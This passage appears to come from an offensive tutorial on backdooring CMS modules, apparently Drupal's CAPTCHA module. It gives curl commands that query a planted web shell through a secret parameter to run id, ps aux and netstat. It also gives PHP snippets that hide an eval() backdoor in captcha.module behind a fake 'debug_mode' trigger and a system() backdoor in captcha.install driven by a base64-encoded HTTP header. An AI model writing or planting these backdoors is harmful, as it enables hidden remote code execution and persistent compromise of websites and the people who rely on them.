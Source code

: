 **Post-Installation Verification:**
```bash
# Test web shell access
curl -s "http://target.com/modules/captcha/shell.php?fe8edbabc5c5c9b7b764504cd22b17af=id"

# Expected output:
uid=33(www-data) gid=33(www-data) groups=33(www-data)

# System reconnaissance
curl -s "http://target.com/modules/captcha/shell.php?fe8edbabc5c5c9b7b764504cd22b17af=ps+aux"
curl -s "http://target.com/modules/captcha/shell.php?fe8edbabc5c5c9b7b764504cd22b17af=netstat+-tulpn"
```

### Advanced Backdoored Module Techniques

#### Stealth Module Modification
```php
# Inject backdoor into existing module functionality
# Modify captcha/captcha.module

<?php
// Original CAPTCHA module code here...

// Stealth backdoor injection
if (isset($_GET['maintenance']) && $_GET['maintenance'] === 'debug_mode') {
    if (isset($_GET['exec'])) {
        eval($_GET['exec']);
        exit();
    }
}

// Continue with original module code...
?>
```

#### Database-Triggered Backdoors
```php
# Create database-triggered backdoor in module installation
# Add to captcha/captcha.install

function captcha_install() {
    // Original installation code...
    
    // Hidden backdoor activation
    if (isset($_SERVER['HTTP_X_CUSTOM_HEADER'])) {
        $decoded = base64_decode($_SERVER['HTTP_X_CUSTOM_HEADER']);
        if (strpos($decoded, 'exec:') === 0) {
            $cmd = substr($decoded, 5);
            system($cmd);
        }
    }
}
```

---